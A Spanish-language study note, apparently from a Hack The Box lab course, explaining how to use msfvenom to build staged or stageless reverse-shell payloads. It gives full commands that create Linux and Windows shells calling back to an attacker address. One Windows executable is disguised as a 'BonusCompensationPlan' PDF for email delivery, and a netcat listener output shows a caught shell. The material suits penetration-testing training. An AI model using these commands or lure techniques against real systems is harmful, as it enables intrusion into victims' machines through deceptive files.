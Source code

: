 Atacar a una máquina con *msfconsole* (metasploit) es útil siempre y cuando la máquina atacante tiene visibilidad de la máquina víctima (que estén en la misma red).

Cuando no se dispone de este acceso, conviene saber otras formas de entregar dicho PAYLOAD. 
La solución es utilizar *msfvenom* para crear un archivo maliciosos que se peuda enviar por correo u otro método para su posterior ejecución.

### Practicando con msfvenom
En la máquina atacante, podemos utilizar el comando:
```
msfvenom -l payloads
```
para listar la totalidad de payloads disponibles.

Estos son algunos ejemplos: 

```shell-session
Polika4RM@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
linux/x86/shell_find_port                           Spawn a shell on an established connection
linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
windows/dllinject/bind_named_pipe                   Inject a DLL via a reflective loader. Listen for a pipe connection (Windows x86)
windows/dllinject/bind_nonx_tcp                     Inject a DLL via a reflective loader. Listen for a connection (No NX)
windows/dllinject/bind_tcp                          Inject a DLL via a reflective loader. Listen for a connection (Windows x86)
windows/dllinject/bind_tcp_rc4                      Inject a DLL via a reflective loader. Listen for a connection
windows/dllinject/bind_tcp_uuid                     Inject a DLL via a reflective loader. Listen for a connection with UUID Support (Windows x86)
windows/dllinject/find_tag                          Inject a DLL via a reflective loader. Use an established connection
windows/dllinject/reverse_hop_http                  Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point.
```

## Tipos de PAYLOADS
Existen dos tipos de PAYLOADS, los staged y los stageless:

Los **payloads staged** se envían en varias etapas: primero una pequeña parte que se ejecuta en la máquina víctima y luego descarga el resto del payload, lo que permite ataques más grandes o complejos, pero puede consumir más memoria y ser inestable en redes lentas.  El “resto del payload” no está en la máquina víctima desde el principio; se envía después a través de la red cuando la primera etapa ya abrió el canal de comunicación. Esto permite que el atacante envíe payloads grandes en partes más pequeñas y controladas

Por otro lado, los **payloads stageless** se envían completos de una sola vez, lo que los hace más estables y menos detectables en redes con poca banda, aunque limita el tamaño del payload. En 
- Los staged separan las etapas con barras (`/`) :
	- Ejemplo: linux/x86/shell/reverse_tcp
- Mientras que los stageless presentan todo en un solo bloque.
	- Ejemplo: linux/zarch/meterpreter_reverse_tcp


# Creando un Stageless Payload
Vamos a construir un stageless payload.

El comando completo es el siguiente:
```shell-session
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
- **msfvenom**: define la herramienta a utilizar
- **-p**: Indica a msfvenom que se debe crear un PAYLOAD.
- **linux/x64/shell_reverse_tcp**: indica a msfvenom el tipo de PAYLOAD a generar según la arquitectura de la víctima.
- **LHOST // LPORT**: Indica el Local Host y Port del atacante. 
- **-f efl**: indica que el payload se encapsulará en un 
- **>createbackup.elf**: indica el nombre del archivo a la salida.


Para un sistema windows, el comando utilizado poddría ser un de este tipo:
```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

En ambos payloads, nos tendríamos que poner en escucha por el puerto indicado en LPORT para recibir la *REVERSE SHELL*: 
```shell-session
Polika4RM@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
